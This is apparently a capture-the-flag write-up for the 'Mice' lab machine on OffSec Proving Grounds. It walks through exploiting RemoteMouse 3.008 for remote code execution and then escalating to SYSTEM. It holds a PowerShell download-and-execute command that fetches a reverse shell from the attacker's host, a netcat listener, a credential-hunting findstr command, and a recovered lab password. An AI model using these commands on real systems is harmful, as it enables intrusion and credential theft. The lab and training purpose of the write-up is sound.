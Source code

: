 # 🧪 Machine Name: Mice

**Platform:** OffSec Proving Grounds\
**IP Address:** `192.168.228.199`\
**Difficulty:** Easy

---

## 🧭 Overview

This PG machine exposes RemoteMouse and other uncommon ports. RemoteMouse 3.008 is known to be vulnerable to RCE. We leverage that to gain an initial foothold via a PowerShell reverse shell, then discover FileZilla credentials and escalate to Administrator via a known LPE vulnerability. Screenshots prove both user and root access.

---

## 🔍 Enumeration

### 🔎 Nmap

```bash
nmap -p- --min-rate 10000 192.168.228.199
PORT     STATE SERVICE
1978/tcp open  remotemouse
1979/tcp open  unisql-java
1980/tcp open  pearldoc-xact
3389/tcp open  ms-wbt-server
7680/tcp open  pando-pub
```

```bash
nmap -p 1978,1979,1980,3380,7680 -sCV -oN nmapscan 192.168.228.199
```

- `1978` identified as RemoteMouse

---

## ⚙️ Exploitation – RemoteMouse RCE

- Vulnerability: [RemoteMouse 3.008 Arbitrary RCE](https://www.exploit-db.com/exploits/46697)
- Tool used: [RemoteMouse-3.008-Exploit.py](https://github.com/p0dalirius/RemoteMouse-3.008-Exploit)

### 🔁 Hosted revshell:

```bash
# PowerShell revshell saved as own.ps1
sudo python3 -m http.server 80
```

### 🐭 Trigger exploit:

```bash
./RemoteMouse-3.008-Exploit.py --target-ip 192.168.228.199 \
  --cmd "powershell -c \"iex (New-Object Net.WebClient).DownloadString('http://192.168.45.206:80/own.ps1')\""
```

### 🖥️ Netcat shell (User)

```bash
nc -lvnp 443
whoami → remote-pc\divine
hostname → Remote-PC
type Desktop\local.txt → `7b179f432c64ed054f461afac5c5bdb0`
```
![Mice Local Proof](https://raw.githubusercontent.com/inkedqt/ctf-writeups/main/HTB/proofs/pg_mice_local.png)
---

## 🪜 Privilege Escalation

### 🔍 Credential Discovery

```bash
findstr /S /I /C:"pass" *.ini *.cfg *.config *.xml
```

- Found in: `C:\Users\divine\AppData\Roaming\FileZilla\recentservers.xml`
![Mice password](https://raw.githubusercontent.com/inkedqt/ctf-writeups/main/HTB/proofs/pg_mice_root2.png)
- Base64 decoded password: `ControlFreak11`

### 🎮 RDP login:

```bash
xfreerdp3 /v:192.168.228.199 /u:"divine" /p:"ControlFreak11" /f
```

### ⬆️ Admin Privesc – RemoteMouse GUI LPE

- [Exploit DB #50047](https://www.exploit-db.com/exploits/50047)
- Triggering RemoteMouse GUI LPE pops SYSTEM shell
![Remove mouse exploit](https://raw.githubusercontent.com/inkedqt/ctf-writeups/main/HTB/proofs/pg_mice_root1.png)
```cmd
whoami → nt authority\system
type Desktop\proof.txt → `5124eb2ab003150adea6c56b12755753`
```

---

## 📷 Proof
![ClamAV Proof](https://raw.githubusercontent.com/inkedqt/ctf-writeups/main/HTB/proofs/pg_mice_root.png)


---

## 💡 Lessons Learned

- RemoteMouse is a common vector and often appears in PG/HTB.
- Always check for saved application configs like FileZilla.
- GUI privilege escalation with a service path or auto-start is viable and easy to overlook.

---
"Writeup and proof included in GitHub repo: https://github.com/inkedqt/ctf-writeups/tree/main/Other/PG/Mice"
